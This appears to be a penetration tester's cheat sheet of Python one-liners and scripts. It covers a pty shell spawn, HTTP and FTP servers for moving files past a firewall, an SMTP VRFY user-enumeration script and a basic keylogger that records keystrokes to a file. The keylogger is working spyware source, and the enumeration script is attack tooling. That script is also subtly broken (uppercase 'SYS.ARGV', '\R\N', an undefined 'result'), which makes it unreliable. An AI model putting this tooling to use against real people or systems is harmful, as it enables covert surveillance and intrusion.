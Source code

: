 # Python One Liners and scripts

# [Back To Command-Center](../Command-Center%2067dcab8dad014156bed16a9e6953166c.md)

- install requirements: `sudo python3 -m pip install -r requirements.txt`
- to spawn a shell: `python3 -c 'import pty;pty.spawn("/bin/bash")'`
- webservers: `python3 -m http.server 8080`
- if webserver is picked up by the firewall use ftp server: `python3 -m pyftpdlib -p 21 --write` and if you don't have it get it first with: `pip3 install pyftpdlib` and to log in just use the IP address of your ftp server: `ftp <ftp server IP>`

## Enumerating users / smtp

```
#!/usr/bin/python

import socket
import sys

#Create a Socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#Connect to the socket
connect = s.connect(('10.11.1.11', 25))
#Recieve the banner
banner = s.recv(1024)
#VRFY a user
s.send('vrfy ' + SYS.ARGV[1] + '\R\N')
print result
#Close the socket
s.close()

```

## keylogger (basic)

```
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "keylogs.txt"), \
	level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()

```

## printing and checking a usage form and switches (Python3)

```
if len(sys.argv) == 1:
    print("USAGE: python3 the_sys_module.py <code name>")
    print("No arguments, exiting...")
    sys.exit(9)
if sys.argv[1] == "tellmemore":
    print("Code name accepted..., exiting with exit code 0.")
else:
    print("Wrong code name, exiting with exit code 3.")

```

## progress bar (Python3)

```
for i in range(0, 51):
    time.sleep(0.1)
    sys.stdout.write("{} [{}{}]\r".format(i, '#' * i, "." * (50 - i)))
    sys.stdout.flush()
sys.stdout.write("\n")

```

## QR code generator (Python3)

```
import qrcode

input_data = "https://google.com"
qr = qrcode.QRCode(version=1, box_size=10, border=5)
qr.add_data(input_data)
qr.make(fit=True)
img = qr.make_image(fill='black', back_color='white')
img.save('qrcode001.png')

```

## Python3 FTP Server

- Simple to use: `python3 -m pyftpdlib` and just make sure you have pyftpdlib installed with pip3.

## SMB Server - Impacket

- `smbserver.py SPITFIRE ./`
